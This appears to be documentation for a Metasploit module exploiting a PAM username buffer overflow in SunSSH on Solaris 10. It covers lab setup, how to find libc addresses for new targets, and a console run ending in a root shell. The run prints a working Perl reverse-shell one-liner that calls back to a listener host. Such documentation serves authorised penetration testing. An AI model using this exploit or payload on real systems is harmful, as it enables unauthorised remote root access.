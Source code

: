 ## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
`keyboard-interactive` authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://www.oracle.com/solaris/solaris10/downloads/solaris10-get-jsp-downloads.html)
in VMware or VirtualBox. You will need an Oracle account.

SunSSH should already be installed and running when you start the
system.

### Adding new targets

To add a new target, you must find the `libc` base address for `sshd`.

```
bash-3.2# pmap $(pgrep -xn sshd) | grep -w libc
FEB80000    1088K r-x--  /lib/libc.so.1
FEC90000      32K rwx--  /lib/libc.so.1
FEC98000       8K rwx--  /lib/libc.so.1
bash-3.2#
```

The `libc` base address for `sshd` is `0xfeb80000` in this example.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

```
msf6 > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(solaris/ssh/pam_username_bof) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set target 1
target => 1
msf6 exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(solaris/ssh/pam_username_bof) > set rport 2222
rport => 2222
msf6 exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.123.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 127.0.0.1:2222        - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 127.0.0.1:2222        - Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable. SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox is a compatible target.
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox
[*] Yeeting cmd/unix/reverse_perl at 127.0.0.1:2222
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.1:57474) at 2020-12-07 01:31:34 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS vagrant-solaris10.dev 5.10 Generic_147148-26 i86pc i386 i86pc
```
